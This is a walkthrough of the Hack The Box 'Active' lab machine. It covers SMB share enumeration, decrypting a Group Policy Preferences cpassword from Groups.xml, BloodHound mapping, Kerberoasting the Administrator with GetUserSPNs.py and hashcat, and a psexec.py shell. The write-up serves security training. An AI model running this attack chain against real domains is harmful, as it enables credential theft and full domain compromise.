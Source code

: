 ```yaml
---
description: >-
  Walkthrough of the HTB machine "Active", perfect for testing Active Directory
  skills.
cover: >-
  https://images.unsplash.com/photo-1545987796-200677ee1011?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHNlYXJjaHwxfHxuZXR3b3JrfGVufDB8fHx8MTcwOTU3NjkzNXww&ixlib=rb-4.0.3&q=85
coverY: 0
---
```


# 💻 Active

## Scanning

Let's start with the usual Nmap scan:

```bash
nmap -T4 -A 10.10.10.100 -Pn

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-04 15:26 -03
Nmap scan report for 10.10.10.100
Host is up (0.14s latency).
Not shown: 982 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  tcpwrapped
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  tcpwrapped
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
|_clock-skew: 1s
| smb2-time: 
|   date: 2024-03-04T18:28:50
|_  start_date: 2024-03-04T18:26:27

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 141.15 seconds
```



## Enumeration

First, we can start Enumerating the SMB Shares to check if we're able to have access to any file shares as anonymous users:

```bash
smbclient -L \\\\10.10.10.100\\ -N

# -L = list shares
# -N = no password
```

<figure><img src="../.gitbook/assets/image (24).png" alt=""><figcaption><p>Anonymous login shows us all the file shares on the target</p></figcaption></figure>

Here we can see two unusual File Shares that we can use to enumerate further. However, we don't have access to it as anonymous users. We can list all the File Shares we have access to with this command:

```basic
smbmap -u '' -p '' -H 10.10.10.100
```

<figure><img src="../.gitbook/assets/image (25).png" alt=""><figcaption><p>Anonymous users have access to the "Replication" File Share</p></figcaption></figure>

As anonymous users, we only have read access to the "Replication" File Share. We can try enumerating further:

```bash
smbclient \\\\10.10.10.100\\Replication -N
```

<figure><img src="../.gitbook/assets/image (26).png" alt=""><figcaption><p>Directory inside the File Share</p></figcaption></figure>

After enumerating, we can see a "_Groups.xml_" file in the following Directory: `\active.htb\Policies{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\`

<figure><img src="../.gitbook/assets/image (27).png" alt=""><figcaption><p>Groups.xml file</p></figcaption></figure>

## Exploitation

If we look at the contents of this file, we'll see a username and a "_cpassword"_:

<figure><img src="../.gitbook/assets/image (28).png" alt=""><figcaption><p>Username and cpassword found</p></figcaption></figure>

Now, we'll need to decrypt this "_cpassword_" to perform a GPP Attack. We can do this by using a tool called "_gpp-decrypt"_.

<figure><img src="../.gitbook/assets/image (29).png" alt=""><figcaption><p>Plain Text Password</p></figcaption></figure>

Now that we have credentials, we can try using them with "_smbmap_" one more time, to find out if this user has access to any other shares:

```bash
smbmap -u 'SVC_TGS' -p '<password>' -H 10.10.10.100
```

<figure><img src="../.gitbook/assets/image (30).png" alt=""><figcaption><p>This user has access to other File Shares</p></figcaption></figure>

### User Flag

As we can see, our recently obtained credentials show us that the SVC\_TGS user has read access to the "Users" File Share.

If we navigate through this File Share and access SVC\_TGS's Desktop, we'll see the user flag there.



## Privilege Escalation / Post Exploitation

### Enumeration

After the exploitation phase, we'll have to do enumeration once again so we know how to escalate our privileges in Active Directory.

We can start by using the "_bloodhound-python_" ingestor to get more information about the target.

To do this, let's create a new folder called "bloodhound" so our files stay more organized.

```bash
# Create a directory called bloodhound and enter it.
mkdir bloodhound
cd bloodhound

# Use the ingestor with the credentials we have to get more information about the domain
bloodhound-python -d active.htb -u svc_tgs -p <password> -ns 10.10.10.100 -c all 
    # -d = domain
    # -u = user
    # -p = password
    # -ns = name server
    # -c all = collect everything
```

<figure><img src="../.gitbook/assets/image (31).png" alt=""><figcaption><p><em>bloodhound-python</em> performing enumeration</p></figcaption></figure>

Now, we can upload all the data collected by the ingestor in "_BloodHound_" so we can have a better visual of how the Domain is built:

```bash
# We first need to start neo4j
sudo neo4j console

# Then we can start bloodhound
sudo bloodhound
```

<figure><img src="../.gitbook/assets/image (32).png" alt=""><figcaption><p>Upload the data collected to BloodHound</p></figcaption></figure>

With all the data uploaded, we can try seeing if we can perform Kerberoasting in any accounts in the domain.

A Kerberoasting attack happens when an user wants to access an Application Server and makes requests to the KDC (Key Distribution Center), A.K.A, the Domain Controller (DC). To do this, the user requests a TGT (Ticket Granting Ticket) to the Domain Controller, and receives back a TGT encrypted with a Kerberos TGT (krbtgt) hash.

After that, the User will request a Ticket Granting Service (TGS) to the KDC presenting its TGT. The KDC will reply back providing the TGS encrypted with the server's account hash. This way, the Kerberoasting attack happens when we get the TGS and decrypt the server's account hash.

Let's see if there are any Kerberoastable accounts in this Domain:

<figure><img src="../.gitbook/assets/image (33).png" alt=""><figcaption><p>Administrator is a Kerberoastable user</p></figcaption></figure>

As we can see, the Administrator account is a Kerberoastable, which means we can grab the Administrator's hash just by performing a Kerboroasting attack.

To perform this Kerberoasting attack we'll do the following:

```bash
GetUserSPNs.py active.htb/svc_tgs:<password> -dc-ip 10.10.10.100 -request
```

<figure><img src="../.gitbook/assets/image (34).png" alt=""><figcaption><p>Administrator's hash</p></figcaption></figure>

Now we just need to crack this hash.&#x20;

To crack a Kerberos hash, we'll use "_hashcat_" with the mode of 13100:

```bash
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

<figure><img src="../.gitbook/assets/image (35).png" alt=""><figcaption><p>Cracked Administrator Password</p></figcaption></figure>



### Root Flag

Once we have the Administrator's password, we can simply navigate to his desktop using "_psexec"_ and grab the root flag:

```bash
psexec.py active.htb/administrator:'<password>'@10.10.10.100
```

<figure><img src="../.gitbook/assets/image (36).png" alt=""><figcaption><p>Root Flag</p></figcaption></figure>

And this was the CTF!&#x20;

Thank you so much for taking the time to read my WriteUp!

See you in another box!
